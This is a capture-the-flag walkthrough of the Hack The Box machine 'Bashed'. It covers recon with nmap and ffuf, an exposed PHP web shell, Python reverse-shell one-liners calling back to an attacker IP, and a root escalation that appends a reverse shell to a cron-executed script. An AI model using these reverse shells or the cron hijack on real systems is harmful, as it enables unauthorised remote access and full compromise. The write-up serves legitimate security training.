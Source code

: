 # Bashed-HTB
Bashed is a Linux machine that is rated as easy, so let's start :)

# Recon
I started by runing nmap scan on the machine.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV 10.10.10.68                  
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-28 20:47 EDT
Nmap scan report for 10.10.10.68
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.61 seconds
```
## ffuf
Using ffuf to fuze for web directories.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ./ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ                                                                                                                                130 ⨯

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
```
So inside ```/dev``` there is two intresting files, by opening ```phpbash.php```, we get a shell

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Bashed/images/1.png)

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Bashed/images/2.png)

# User Flag
I prefer to get a shell rather than use the web shell, so here is how you can get a reverse shell using python:

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip_address>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```

And we got a shell:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444                             
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.68] 42552
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Let's upgrade it now:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$
```
And we can get User Flag:
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
2c281f318...957c7147bfc1
```

# Root Flag
By running ```sudo -l``` you can see that we can get a shell as ```scriptmanager```
```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

Getting a shell as ```scriptmanager```:
```
www-data@bashed:/home/arrexel$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/home/arrexel$ id
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

```scriptmanager``` have access to ```/script``` dir.
```
scriptmanager@bashed:/scripts$ ls
ls
test.py  test.txt
```
So I assumed that root is running a cron job on that dir, so I decided to modify test.py and add a reverse shell.
```
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip_address>",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> test.py
```

And after some minutes I got my reverse shell as root:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 5555                             
listening on [any] 5555 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.68] 45418
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
Now we can get root flag:
```
# cat root.txt
cc4f0afe...29674a8e2
```

Thank you for reading, and you can find me here on twitter: https://twitter.com/electronicbots
